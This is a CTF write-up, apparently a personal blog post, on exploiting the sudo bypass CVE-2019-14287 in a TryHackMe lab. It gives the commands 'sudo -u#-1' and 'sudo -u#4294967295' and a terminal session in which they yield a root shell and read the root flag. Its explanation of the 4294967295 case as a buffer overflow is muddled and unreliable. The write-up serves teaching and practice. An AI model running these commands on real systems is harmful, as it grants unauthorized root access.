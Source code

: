```yaml
---
title: Sudo - Security Bypass (CVE:2019-14287)
author: Dimitrios Tsarouchas
date: 2021-01-23 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, CVE-2019-14287]
pin: true
---
```


![Kenobi](https://cdn.pixabay.com/photo/2013/07/13/12/31/penguin-159784_960_720.png)

## Introduction

In this post we are going to exploit a vulnerability found in the `sudo` program by Joe Vennix in 2019. This vulnerability has been patched in newer versions of Linux but it may still be found in versions 1.8.27 and before. In the practical part we are going to use a machine from the TryHackMe room [Sudo Security Bypass](https://tryhackme.com/room/sudovulnsbypass){:target="_blank"}.  

### What is sudo?

In Linux operating systems `sudo` (or Super User DO) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy ([sudo.ws](https://www.sudo.ws/man/1.8.3/sudo.man.html){:target="_blank"}). A user can automatically inherit the permissons of the binary's owner (root) if will execute the binary with setuid permissions. Setuid permits users to run certain programs with esclated privilege ([computerhope.com](https://www.computerhope.com/jargon/s/setuid.htm#:~:text=Setuid%2C%20which%20stands%20for%20set,certain%20programs%20with%20escalated%20privileges.){:target="_blank"}).

## CVE-2019-14287 

The [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287){:target="_blank"} vulnerability gives to a local user or a program the ability  to execute commands as a superuser. 

In a Linux system a user can execute programs as other users by specifying their **UID** using the command `sudo -u#id <command>`. 

Even though root access from a local user is prohibited in the `/etc/sudoers` configuration file, Joe Vennix managed to bypass it by finding a flaw in the previous command. 

#### Lets understand it with the following example

We have a local user called Bob and we want to grant extra permissions to him and let him execute a program as if he is any other user but not the root user.

We will do this by configuring the `/etc/sudoers` file and adding the following line:
```terminal
Bob ALL=(ALL:!root) NOPASSWD: ALL
```
Adding the previous line to sudoers file will let Bob exexute any command as another user and prevent him from executing commands as the superuser (root). In some vulnerable versions of `sudo` we can bypass this restriction and execute commands with root privileges. By entering the user id equal to 0 (root UID) in the previous command it wouldn't work because we are not allowed to execute commands as the root user [exploit-db.com](https://www.exploit-db.com/exploits/47502){:target="_blank"}. 

According to Joe Vennix's findings there are two values that Sudo incorrectly read them as being 0 which is the root UID:

- -1
- 4294967295

Even though the sudoers file has been configured to restrict us from executing commands as root, by passing any of these two values in the user ID will give us root privileges.

```terminal
sudo -u#-1 <command>

or

sudo -u#4294967295 <command>
```

**There are two aspects of this vulnerability:**


When a UID of -1 is provided:
The binary interprets this as a request for no change in the user id, but since sudo is already executing with root privileges, it gives the user root access upon execution.

When a UID of 4294967295 is provided:
This large number causes the buffer for the sudo binary to be overflowed, since the defined range has its maximum limit for 10000; the buffer overflows and sudo processes the given integer as a request for no change in the user id, but since sudo executes with root permissions, after execution the system call gives root access.

Source: [datacellsolutions.com](https://datacellsolutions.com/2019/11/29/the-sudo-security-bypass-bug/){:target="_blank"}

## Exploting sudo

We will SSH into the ThryHackMe machine on port 2222 and try to escalate our privileges from a normal user to the root.

The credentials are already provided below:

- Username: tryhackme
- Password: tryhackme

```terminal
# ssh -p 2222 tryhackme@10.10.47.156                                       
The authenticity of host '[10.10.47.156]:2222 ([10.10.47.156]:2222)' can't be established.
ECDSA key fingerprint is SHA256:p8qxMPPV/x0AsbdLybMXoOPRBUR07uTTrEzgrZWuHKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '[10.10.47.156]:2222' (ECDSA) to the list of known hosts.
tryhackme@10.10.47.156's password: tryhackme 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ whoami
tryhackme
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash      

tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# pwd
/home/tryhackme
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}

```

When we first connected to the remote machine and used the `whoami` command we found that we are the **tryhackme** user. 


Then we checked what commands we are allowed to run with sudo using the `sudo -l` command. 

As we can see above we are not allowed to run the `/bin/bash` file as the root user. The system administrator has configured the `/etc/sudoers` file with the instruction `(ALL, !root) NOPASSWD: /bin/bash` to prevent us from executing `/bin/bash` as superusers. 


Unfortunatelly for him the sudo version this machine is using is vulnerable and we are going to exploit it to get root privileges.
We will become root users using the `sudo -u#-1 /bin/bash` command. 


After the successfull execution of the command, using once more the `whoami` we can see that the name of the user is root, and we can also see that the shell has changed from `tryhackme@sudo-privesc:~$` to `root@sudo-privesc:~#`.

In order to find the **root.txt** flag which is stored under the `/root` folder we type `cat /root/root.txt` and since we are the root user we get the flag. 




